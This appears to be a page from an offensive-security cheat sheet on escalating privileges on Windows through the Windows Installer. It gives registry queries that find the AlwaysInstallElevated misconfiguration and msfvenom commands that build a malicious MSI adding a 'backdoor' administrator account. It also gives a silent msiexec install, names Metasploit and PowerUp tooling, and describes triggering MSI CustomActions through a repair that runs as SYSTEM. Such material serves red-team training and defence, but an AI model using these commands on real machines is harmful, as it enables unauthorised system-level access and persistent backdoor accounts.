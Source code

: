 ## EoP - Microsoft Windows Installer

### AlwaysInstallElevated

Using the `reg query` command, you can check the status of the `AlwaysInstallElevated` registry key for both the user and the machine. If both queries return a value of `0x1`, then `AlwaysInstallElevated` is enabled for both user and machine, indicating the system is vulnerable.

* Shell command

    ```powershell
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```

* PowerShell command

    ```powershell
    Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
    Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
    ```

Then create an MSI package and install it.

```powershell
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in :

* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`

### CustomActions

> Custom Actions in MSI allow developers to specify scripts or executables to be run at various points during an installation

* [mgeeky/msidump](https://github.com/mgeeky/msidump) - a tool that analyzes malicious MSI installation packages, extracts files, streams, binary data and incorporates YARA scanner.
* [activescott/lessmsi](https://github.com/activescott/lessmsi) - A tool to view and extract the contents of an Windows Installer (.msi) file.
* [mandiant/msi-search](https://github.com/mandiant/msi-search) - This tool simplifies the task for red team operators and security teams to identify which MSI files correspond to which software and enables them to download the relevant file.

Enumerate products on the machine

```ps1
Get-WmiObject Win32_Product | Select Name, LocalPackage
wmic product get identifyingnumber,name,vendor,version,localpackage
```

Execute the repair process with the `/fa` parameter to trigger the CustomActions.
We can use both IdentifyingNumber `{E0F1535A-8414-5EF1-A1DD-E17EDCDC63F1}` or path to the installer `c:\windows\installer\XXXXXXX.msi`.
The repair will run with the NT SYSTEM account.
